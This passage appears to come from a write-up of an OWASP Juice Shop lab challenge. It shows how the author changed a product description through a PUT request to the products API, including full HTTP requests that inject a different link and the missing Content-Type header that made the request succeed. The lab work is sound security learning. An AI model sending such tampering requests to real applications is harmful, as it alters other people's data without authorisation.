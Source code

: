 We'll try to use a different HTTP verb to update this information. There isn't an example for what the JSON in the body of such a request would look like, but we do have example key/value pairs from the response above as a starting point.

Attempting to send over just a description...

```{% raw %}
PUT /api/Products/9 HTTP/1.1
Host: juice.shop:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/plain, */*\
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://juice.shop:3000/
Authorization: [...]

{"description":"O-Saft is an easy to use tool to show information about SSL certificate and tests the SSL connection according given list of ciphers and various SSL configurations. <a href=\"http://kimminich.de\" target=\"_blank\">More...</a>"}
{% endraw %}```

HTTP 200 is promising, but the response body contains the unmodified description. Subsequent GET requests also respond with the original description.

```
HTTP/1.1 200 OK
[...]

{"status":"success","data":{"id":9,"name":"OWASP SSL Advanced Forensic Tool (O-Saft)","description":"O-Saft is an easy to use tool to show information about SSL certificate and tests the SSL connection according given list of ciphers and various SSL configurations. <a href=\"https://www.owasp.org/index.php/O-Saft\" target=\"_blank\">More...</a>","price":0.01,"image":"orange_juice.jpg","createdAt":"2018-08-02T00:52:16.120Z","updatedAt":"2018-08-02T00:52:16.120Z","deletedAt":null}}
```

After much time wasting and a hint from [Dejan](https://dejandayoff.com/) to look at similar POST requests used elsewhere in the application for comparison, I found a small detail was omitted... the Content-Type header. I constructed my PUT request in Burp Repeater from a GET request which would not normally have a Content-Type header seeing as it lacks content!

Adding Content-Type...

```{% raw %}
PUT /api/Products/9 HTTP/1.1
Host: juice.shop:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/plain, */*
Content-Type: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://juice.shop:3000/
Authorization: [...]

{"description":"O-Saft is an easy to use tool to show information about SSL certificate and tests the SSL connection according given list of ciphers and various SSL configurations. <a href=\"http://kimminich.de\" target=\"_blank\">More...</a>"}
{% endraw %}```

Much better.

```{% raw %}
HTTP/1.1 200 OK
[...]

```